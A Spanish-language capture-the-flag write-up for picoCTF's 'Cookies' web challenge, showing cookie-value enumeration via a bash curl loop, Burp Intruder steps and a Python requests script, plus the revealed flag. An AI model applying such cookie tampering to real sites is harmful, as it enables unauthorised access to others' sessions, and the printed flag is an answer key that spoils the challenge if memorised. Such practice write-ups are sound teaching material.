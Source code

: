 
# Cookies
Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:6418/](http://mercury.picoctf.net:6418/)

## Solución
http://mercury.picoctf.net:6418/

- Aparece un cuadro de búsqueda, parece un buscador de galletas, se sugiere un cookie: `snickerdoodle`

```
### Cookies
### Welcome to my cookie search page. See how much I like different kinds of cookies!

snickerdoodle

Search

© PicoCTF
```
- Examinemos las cookies con cokieditor, hay una cookie establecida, con un valor de -1
```
name = -1
```

. Que pasa si usamos el valor de busqueda sugerido? Cambia la cookie ? :  `snickerdoodle`
```
That is a cookie! Not very special though...

**I love snickerdoodle cookies!**
```
- La cookie cambia:
```
name = 0
```

### Consola
- Rotar las cookies con un ciclo for y un curl
. Solo hay que ver a donde va dirigida la petición 
```
http://mercury.picoctf.net:6418/check
```
- Lanzar un ejemplo antes del ciclo
```bash
		for i in {0..20} ; do curl -s http://mercury.picoctf.net:6418/check -H "Cookie: name=$i" ; done | grep pico

    <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_88acab36}</code></p>
```

## Burp
- Mandar al repeateer, modificarlo y ver resultados
- Usar intruder > 
	- Attack Type > sniber
	- Payload type Numbers
		- 1 a 20 de 1 en 1
	- Inciar ataque
	- Buscar cadena en las respuetas abajo
- Repetir itruder
	- Todo lo anteriot + Grep Match > picoCTF

## Python
```python
import requests
import re

url = 'http://mercury.picoctf.net:6418/check'

for i in range(21):
	cookies = {'name':'{}'.format(i)}
	r = requests.get(url, cookies=cookies)
	if 'picoCTF{' in r.text:
		flag = re.findall('picoCTF\{.*?\}', r.text)[0]
		print(flag)  
```
